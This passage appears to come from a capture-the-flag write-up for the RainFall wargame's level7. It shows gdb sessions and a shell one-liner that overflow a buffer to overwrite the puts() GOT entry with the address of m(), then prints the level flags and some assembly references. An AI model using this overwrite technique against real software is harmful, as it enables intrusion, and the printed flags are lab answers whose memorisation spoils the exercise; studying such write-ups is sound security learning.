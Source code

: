 - Our EIP has changed to the address we wrote at the location of puts() ! Let's try again with the address of the m() function

```bash
(gdb) r $(python -c 'print "A"*16')$(echo -n -e '\x01\x01\x01\x02')$(echo -n -e '\x28\x99\x04\x08') $(echo -n -e '\xf4\x84\x04\x08')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level7/level7 $(python -c 'print "A"*16')$(echo -n -e '\x01\x01\x01\x02')$(echo -n -e '\x28\x99\x04\x08') $(echo -n -e '\xf4\x84\x04\x08')

Breakpoint 1, 0x080485a5 in main ()

(gdb) continue
Continuing.

Breakpoint 2, 0x080485c2 in main ()

(gdb) set {char}0x080486fb='7'

(gdb) continue
Continuing.
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
 - 1584111922
[Inferior 1 (process 2912) exited normally]
```

- Do the same without gdb calling ptrace() so we can setuid()

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "A"*16')$(echo -n -e '\x01\x01\x01\x02')$(echo -n -e '\x28\x99\x04\x08') $(echo -n -e '\xf4\x84\x04\x08')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1584111992

level7@RainFall:~$ su level8
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8

level8@RainFall:~$
```

## Misc / References

### ASM Cheatsheets

- [Registers usage](http://6.s081.scripts.mit.edu/sp18/x86-64-architecture-guide.html)
- [ASM Operations](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)
- [Linux Syscall Table](https://filippo.io/linux-syscall-table/)
- [Att vs Intel syntax](https://imada.sdu.dk/~kslarsen/Courses/dm546-2019-spring/Material/IntelnATT.htm)
- [Linux startup callgraph](http://dbp-consulting.com/tutorials/debugging/linuxProgramStartup.html)

